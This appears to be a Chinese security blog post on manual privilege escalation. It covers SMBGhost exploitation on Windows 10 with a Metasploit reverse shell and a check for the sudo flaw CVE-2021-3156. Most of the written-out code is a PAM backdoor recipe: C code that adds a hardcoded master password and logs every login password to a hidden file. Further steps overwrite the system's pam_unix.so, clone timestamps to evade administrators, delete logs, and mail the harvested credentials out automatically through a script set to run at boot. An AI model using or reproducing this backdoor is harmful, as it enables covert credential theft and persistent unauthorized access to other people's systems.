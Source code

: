 ```yaml
---
title: 手工提权
author: Spade-Z
top: false
cover: false
toc: true
mathjax: false
img: >-
  https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%830.png
coverImg: >-
  https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%831.png
summary: 通常情况下我们通过 Web 服务获取到站点的 Webshell 权限都是普通用户的权限，这个时候能做的事情非常的少，所以我们需要提权来进行扩大战果。
tags: 
    - 工具 
    - Windows提权 
    - Linux提权
categories: 
    - 系统安全
abbrlink: 24efcaff
date: 2021-05-13 09:28:46
password:
---
```



# 一、Window10 提权漏洞

漏洞复现
靶机：win10虚拟机  ip：192.168.216.128(防火墙关闭)
攻击机：kali虚拟机  ip：192.168.202.130

## 1:检测系统是否存在漏洞
> git下载地址[传送门](https://github.com/ollypwn/SMBGhost)

用法：python3 scanner.py 目标ip
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%831.png)

目标存在该漏洞
## 2:提权POC提权
POC下载地址[传送门](https://github.com/chompie1337/SMBGhost_RCE_Po)
- 第一步：msf生成反向连接木马：
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%832.png)
- 第二步：生成的exploit.py 生成的code，替换到exploit.py的USER_PAYLOAD参数，并把参数buf改为USER_PAYLOAD。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%833.png)
- 第三步：启动msf
配置监听
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%834.png)
- 第四步：运行poc，自动建立连接
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%835.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%836.png)
查看当前用户权限
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%837.png)
如果不是system权限可以使用msf中的getsystem进行一下提权，也可以使用对应漏洞的提权文件
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%838.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%839.png)
执行完提权文件cve-2020-0796-local.exe后可以看到成功提权到system权限

# 二、Linux sudo提权漏洞

漏洞编号：CVE-2021-3156
漏洞级别：高危
受影响版本：
		sudo: 1.8.2 - 1.8.31p2
        sudo: 1.9.0 - 1.9.5p1
检测方法：
    以非root用户登录系统，并运行如下命令：
    sudoedit -s /
-   如果响应一个以sudoedit:开头的报错，那么表明存在漏洞。
-   如果响应一个以usage:开头的报错，那么表明补丁已经生效。
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8310.png)
POC利用
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8311.png)
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8312.png)

# 三、自动劫持root密码并转发密码到邮箱

## 1.过PAM认证模块劫持密码
思路：在 xuegod63 上安装一个打了后门补丁的 PAM 认证模块，当用户来连接时，直接把密码记录下来。然后使用脚本发给我们的邮箱中
- 查看pam版本
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8313.png)
下载对应版本软件包

## 2.安装gcc和pam依赖
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8314.png)

## 3.安装PAM认证模块
![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8315.png)
- 修改源码，在源码中添加后门
    <pre style="background-color: #333333;"><code style="color: #ffffff">
        [root@localhost Linux-PAM-1.1.8]# vim modules/pam_unix/pam_unix_auth.c
        180 retval = _unix_verify_password(pamh, name, p, ctrl);
        在 180 行下新增内容如下：
        if(strcmp(p,"1234567")==0){
        return PAM_SUCCESS;
        }
        if(retval==PAM_SUCCESS){
        FILE *fp;
        fp = fopen("/tmp/.logs","a");
        fprintf(fp,"%s->%s\n",name,p);
        fclose(fp);
        }
    </code></pre>
    1234567 是 backdoor 密码
    /tmp/.logs 记录系统登录密码
- 解决 64 位系统编译时遇到 yywrap()函数未定义问题
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost Linux-PAM-1.1.8]# vi conf/pam_conv1/pam_conv_l.c
    6 /* A lexical scanner generated by flex */
    第六行下插入代码
    7 int yywrap(){return 1;}
    [root@localhost Linux-PAM-1.1.8]# vi doc/specs/parse_l.c
    6 /* A lexical scanner generated by flex */
    第六行下插入代码
    7 int yywrap(){return 1;}
    </code></pre>
- 配置 PAM 以下都是默认参数，因为安装了 flex，需要手工指定路径。
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost Linux-PAM-1.1.8]# ./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
    [root@localhost Linux-PAM-1.1.8]# make
    </code></pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8316.png)
- 安装编译好的PAM模块
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost Linux-PAM-1.1.8]# cd /lib64/security/
    </code></pre>
- 备份原始版本
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost security]# mv pam_unix.so{,bak}
    </code></pre>
-  覆盖系统现有pam
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost security]# cp /root/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /lib64/security/
    </code></pre>
- 克隆原始文件时间，防止时间戳发生改变被管理员检测到
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8317.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8318.png)
- 新建Xshell终端窗口
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8319.png)
    密码成功记录
    清除系统登陆记录
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost security]# rm -rf /tmp/.logs
    </code></pre>
- 测试后门密码登陆
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8320.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8321.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8322.png)
## 3.自动发送邮件
- （1）使用 mail.rc 实现发邮件
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@xuegod63 ~]# vim /etc/mail.rc #在此文件最后插入以下内容：
    set from=15595243411@163.com smtp=smtp.163.com
    set smtp-auth-user=15595243411 smtp-auth-password=PASSWORD smtp-auth=login
    注：
    set from=15595243411@163.com #指定发件人的邮箱，这里就写成和收件人的邮箱一样。
    set smtp-auth-user=15595243411 #写自己发件人的邮箱帐号
    smtp-auth-password=PASSWORD #写自己发件人的邮箱的授权码
    </code></pre>
- （2）配置 163 邮箱，开启 pop3/smtp 服务
- （3）测试邮件发送
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost ~]# mail -s "demo title" 15595243411@163.com < /tmp/.logs
    </code></pre>
    查看
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8323.png)
- （4）编写 shell 脚本自动发邮件，邮件的主题是服务器的 IP 地址
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8324.png)
- （5）测试
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost ~]# /bin/zipmail
    </code></pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8325.png)

## 4.实现当用户通过 ssh 登录系统后，自动发邮件
- 安装inotify
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8326.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8327.png)
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost inotify-tools-3.13]# make  -j 4
    [root@localhost inotify-tools-3.13]# make install
    </code></pre>
-  编写出发时自动发邮件脚本
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8328.png)
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8329.png)
- 设置开机启动zipmail脚本
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost inotify-tools-3.13]# vi /etc/rc.local
    #在此文件的最后插入以下内容。
    /bin/zipmail &
    </code></pre>
- 测试
    <pre style="background-color: #333333;"><code style="color: #ffffff">
    [root@localhost inotify-tools-3.13]# bash /etc/rc.local
    Xshell退出重连一下
    </code></pre>
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8330.png)
- 查看一下进程
    ![](https://raw.githubusercontent.com/spade-z-1/cdn/master/img/%E6%89%8B%E5%B7%A5%E6%8F%90%E6%9D%8331.png)